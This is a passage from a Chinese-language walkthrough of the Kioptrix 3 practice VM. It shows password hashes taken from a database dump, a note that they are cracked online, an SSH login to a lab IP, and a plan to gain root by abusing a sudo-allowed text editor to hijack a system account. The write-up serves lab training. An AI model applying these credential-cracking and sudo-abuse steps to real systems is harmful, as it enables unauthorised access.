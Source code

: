 我们现在可以检查该文件中的任何凭据。

```
INSERT INTO `dev_accounts` VALUES (1,'dreg','0d3eccfb887aabd50f243b3f155c0f85'),(2,'loneferret','5badcaf789d3d1d09794d8f021f40f0e');
```

发现存在两个hash值，与我们之前通过SQL注入查询到的一样

```
dreg:0d3eccfb887aabd50f243b3f155c0f85
loneferret:5badcaf789d3d1d09794d8f021f40f0e
```

我们可以将它们放入 CrackStation（见上文），然后我们就得到了密码！



### 权限提升

我们从转储中得知`/etc/passwd`，`dreg`和`loneferret`似乎都是 Kioptrix 盒子上的有效帐户。我们还在`loneferret`枚举过程开始时看到博客文章中提到了（并找到了他的密码`hydra`），所以让我们使用他的凭据登录：

```
┌──(root㉿kali)-[~]
└─# ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss loneferret@192.168.23.130
```

我们成功登录了这个用户，查看当前目录CompanyPolicy.README这个文件发现了一个ht编辑器是有sudo权限位的，通过sudo -l可以确定这一点

```
loneferret@Kioptrix3:~$ ls
checksec.sh  CompanyPolicy.README
loneferret@Kioptrix3:~$ cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

&#x20;我们可以使用以超级用户权限运行的文本编辑器做什么？

让我们劫持一个系统帐户。`games`我将在这个例子中使用。

我们需要修改`TERM`环境变量来运行编辑器：

```
loneferret@Kioptrix3:~$ sudo ht
Error opening terminal: xterm-256color.
```

这个错误通常发生在尝试使用sudo命令时，由于终端类型设置不正确而导致无法打开终端。可以尝试以下方法解决这个问题：
